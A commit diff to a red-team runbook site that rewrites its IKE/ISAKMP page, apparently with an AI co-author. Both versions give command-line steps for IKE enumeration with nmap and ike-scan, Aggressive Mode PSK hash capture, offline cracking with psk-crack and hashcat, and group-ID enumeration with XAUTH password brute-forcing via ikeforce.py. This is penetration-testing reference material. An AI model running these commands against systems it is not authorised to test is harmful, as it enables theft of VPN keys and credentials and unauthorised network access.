

Before and after one commit to aelder202/red-team-runbook, an MkDocs documentation site: the page built from docs/information-gathering/service-analysis/isakmp-ike.md, in a window 1280 px wide and 1400 px high, scrolled down 220 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 1570 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Review IKE/ISAKMP page: rewrite to practitioner style, remove citations and filler sections
Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/docs/information-gathering/service-analysis/isakmp-ike.md
+++ b/docs/information-gathering/service-analysis/isakmp-ike.md
@@ -1,152 +1,57 @@
+# IKE/ISAKMP (500, 4500)
+
 !!! tip "Start here"
-    Probe Aggressive Mode for PSK capture: `ike-scan -A $IP` — if it responds, capture the PSK hash with `ike-scan -A -P ike_psk_params.txt $IP` and crack offline with `psk-crack -d wordlist.txt ike_psk_params.txt` or hashcat mode 5300/5400. Aggressive Mode + PSK is the most common IKEv1 weakness.
+    Try Aggressive Mode first: `ike-scan -A 10.10.10.10`. If it responds, capture the PSK hash and crack offline with hashcat mode 5300/5400. Aggressive Mode + PSK is the main IKEv1 weakness — Main Mode doesn't expose the hash.
 
 ---
-## Key Concepts (quick reference)
 
-- **Ports:** 500/udp (IKE/ISAKMP), **4500/udp** (NAT-T after NAT detected). ([IETF Datatracker](https://datatracker.ietf.org/doc/html/rfc3947?utm_source=chatgpt.com "RFC 3947 - Negotiation of NAT-Traversal in the IKE"))
+## Enumeration
 
-- **IKEv1 modes:** Main (safer), Aggressive (**can leak data needed for offline PSK cracking**). IKEv2 simplifies and is generally preferred. ([IETF Datatracker](https://datatracker.ietf.org/doc/html/rfc7296?utm_source=chatgpt.com "RFC 7296 - Internet Key Exchange Protocol Version 2 ..."))
-
-- **Common auth:** PSK, certificates, or EAP (often with XAUTH in legacy setups).
-
-- **Transform set:** Encryption, hash, auth, DH group — often fingerprintable from responders.
-
+```bash
+sudo nmap -sU -p 500,4500 --script ike-version 10.10.10.10
+```
 
 ---
-## What to Run First
 
-1. **Discovery & basic fingerprinting**
+## ike-scan
 
 ```bash
-sudo nmap -sU -p 500,4500 -sV --script ike-version $IP
+ike-scan 10.10.10.10              # basic probe — is IKE responding?
+ike-scan -M 10.10.10.10           # Main Mode — transform fingerprint
+ike-scan -A 10.10.10.10           # Aggressive Mode probe
 ```
 
-Identifies IKE service, vendor IDs, and capabilities. ([Nmap](https://nmap.org/nsedoc/scripts/ike-version.html?utm_source=chatgpt.com "ike-version NSE script"))
+---
 
-2. **Deeper enumeration (ike-scan)**
+## PSK Hash Capture (Aggressive Mode)
 
 ```bash
-ike-scan $IP                # Is IKE responding?
-ike-scan -M $IP             # Main Mode transform hints/fingerprint
-ike-scan -A $IP             # Aggressive Mode probe (if enabled)
-sudo ike-scan -A -P $IP     # Crack aggressive mode pre-shared keys
+ike-scan -A -P ike_psk_params.txt 10.10.10.10
 ```
 
-Use Aggressive Mode only to validate exposure to PSK hash capture. ([Kali Linux](https://www.kali.org/tools/ike-scan/?utm_source=chatgpt.com "ike-scan | Kali Linux Tools"))
+If the gateway requires a group name:
+```bash
+ike-scan -A --id=vpn -P ike_psk_params.txt 10.10.10.10
+```
+
+Crack offline:
+```bash
+psk-crack -d /usr/share/wordlists/rockyou.txt ike_psk_params.txt
+
+hashcat -m 5300 ike_psk_params.txt /usr/share/wordlists/rockyou.txt   # MD5
+hashcat -m 5400 ike_psk_params.txt /usr/share/wordlists/rockyou.txt   # SHA1
+```
 
 ---
-## Enumeration
 
-### Nmap (safe fingerprinting)
+## Group ID / XAUTH Enumeration
+
+On legacy Cisco VPN stacks, valid group names return different responses — enumerate them, then brute XAUTH:
 
 ```bash
-sudo nmap -sU -p 500 --script ike-version $IP
+python3 ikeforce.py 10.10.10.10 -e -w groupnames.txt
+python3 ikeforce.py 10.10.10.10 -b -i <group-id> -k <psk> -U users.txt -w passwords.txt
 ```
 
-- Returns vendor IDs, features (e.g., DPD, XAUTH). Add `-p 4500` if NAT-T likely. ([Nmap](https://nmap.org/nsedoc/scripts/ike-version.html?utm_source=chatgpt.com "ike-version NSE script"))
-
-
-### ike-scan (active IKEv1 probing)
-
-```bash
-# Main Mode transforms & backoff fingerprint (less intrusive)
-ike-scan -M $IP
-
-# Aggressive Mode test (reveals more; risk = enables PSK capture)
-ike-scan -A $IP
-
-# Try with a candidate group name / ID (Aggressive Mode only)
-ike-scan -A --id=<GROUP_ID> $IP
-```
-
-Notes: Aggressive Mode responses can include vendor IDs and permit PSK parameter capture. ([Debian Manpages](https://manpages.debian.org/testing/ike-scan/ike-scan.1.en.html?utm_source=chatgpt.com "ike-scan — Debian testing"))
-
-### Group/ID & XAUTH enumeration (legacy stacks)
-
-```bash
-# IKEForce for group/ID enumeration and XAUTH workflows
-python3 ikeforce.py $IP -e -w groupnames.txt             # enumerate group IDs
-python3 ikeforce.py $IP -b -i <GROUP_ID> -k <PSK> \
-  -U users.txt -w passwords.txt                           # XAUTH brute
-```
-
-Helpful where devices leak differences on valid vs invalid IDs or support XAUTH. ([Trustwave](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/cracking-ike-missionimprobable-part3/?utm_source=chatgpt.com "Cracking IKE Mission:Improbable (Part3)"))
-
----
-## Attack Paths & Proofs
-
-### IKEv1 Aggressive Mode PSK – **offline crack**
-
-1. **Capture PSK parameters** (HASH_R, etc.):
-
-
-```bash
-ike-scan -A --id=<GROUP_ID> -P ike_psk_params.txt $IP
-```
-
-2. **Crack with psk-crack**:
-
-
-```bash
-psk-crack -d wordlist.txt ike_psk_params.txt
-```
-
-3. **Or crack with hashcat** (depends on hash family negotiated):
-
-
-```bash
-# MD5-based IKE PSK
-hashcat -m 5300 ike_psk_params.txt wordlist.txt
-# SHA1-based IKE PSK
-hashcat -m 5400 ike_psk_params.txt wordlist.txt
-```
-
-This workflow relies on the well-known weakness of **Aggressive Mode with PSK** allowing offline guessing. ([Kali Linux](https://www.kali.org/tools/ike-scan/?utm_source=chatgpt.com "ike-scan | Kali Linux Tools"))
-
-### Group/ID discovery → PSK capture
-
-If the gateway requires a correct **group name/ID** to return PSK parameters, enumerate IDs (e.g., with IKEForce) and then rerun `ike-scan -A --id=<GROUP_ID> -P ...`. ([Trustwave](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/cracking-ike-missionimprobable-part3/?utm_source=chatgpt.com "Cracking IKE Mission:Improbable (Part3)"))
-
----
-## Recognition Cues (what “good/bad” looks like)
-
-- **Aggressive Mode response** shows `SA=(Enc=..., Hash=..., Group=..., Auth=...)` and may include **VIDs** (e.g., Cisco Unity, XAUTH). Presence of Aggressive Mode plus PSK implies **offline crack risk**. ([NCC Group](https://www.nccgroup.com/research-blog/cisco-ipsec-vpn-implementation-group-name-enumeration/?utm_source=chatgpt.com "Cisco IPSec VPN Implementation Group Name Enumeration"))
-
-- **NAT-T behavior:** Initial IKE on 500 then switch/also listen on **4500/udp** when NAT detected. Scan both. ([IETF Datatracker](https://datatracker.ietf.org/doc/html/rfc3947?utm_source=chatgpt.com "RFC 3947 - Negotiation of NAT-Traversal in the IKE"))
-
-
----
-## Evidence Collection
-
-```bash
-# Save interactive attempts & timing
-script -qc 'ike-scan -M $IP; ike-scan -A --id=<GROUP_ID> -P ike_psk_params.txt $IP' ike-enum.log
-
-# PCAP for report
-sudo tcpdump -nn -i <iface> udp port 500 or udp port 4500 -w ike_handshake.pcap
-```
-
-Keep:
-
-- `ike_psk_params.txt` (inputs for cracking).
-
-- `ike-enum.log` (commands + outputs).
-
-- `ike_handshake.pcap` (handshake proof).
-
-
----
-## Bookmarks (tools & references)
-
-- Nmap `ike-version` NSE script. ([Nmap](https://nmap.org/nsedoc/scripts/ike-version.html?utm_source=chatgpt.com "ike-version NSE script"))
-
-- `ike-scan` & `psk-crack` usage/manpage. ([Kali Linux](https://www.kali.org/tools/ike-scan/?utm_source=chatgpt.com "ike-scan | Kali Linux Tools"))
-
-- Hashcat example hashes (modes **5300** IKE-PSK MD5, **5400** IKE-PSK SHA1). ([hashcat.net](https://hashcat.net/wiki/doku.php?id=example_hashes&utm_source=chatgpt.com "example_hashes [hashcat wiki]"))
-
-- NAT-T (UDP 4500) overview (RFC 3947). ([IETF Datatracker](https://datatracker.ietf.org/doc/html/rfc3947?utm_source=chatgpt.com "RFC 3947 - Negotiation of NAT-Traversal in the IKE"))
-
-- IKEv2 spec (RFC 7296). ([IETF Datatracker](https://datatracker.ietf.org/doc/html/rfc7296?utm_source=chatgpt.com "RFC 7296 - Internet Key Exchange Protocol Version 2 ..."))
-
-- Aggressive Mode PSK risk write-ups (Tenable / Trustwave / Raxis). ([Tenable®](https://www.tenable.com/plugins/nessus/62694?utm_source=chatgpt.com "Internet Key Exchange (IKE) Aggressive Mode with Pre ..."))
+!!! tip "Real-world"
+    IKE on external assessments usually means a VPN gateway. Aggressive Mode is disabled on modern configurations, but legacy Cisco ASA and older Juniper/Checkpoint devices still have it enabled. Check both 500/udp and 4500/udp — 4500 is NAT-T and shows up when traffic passes through NAT.
````
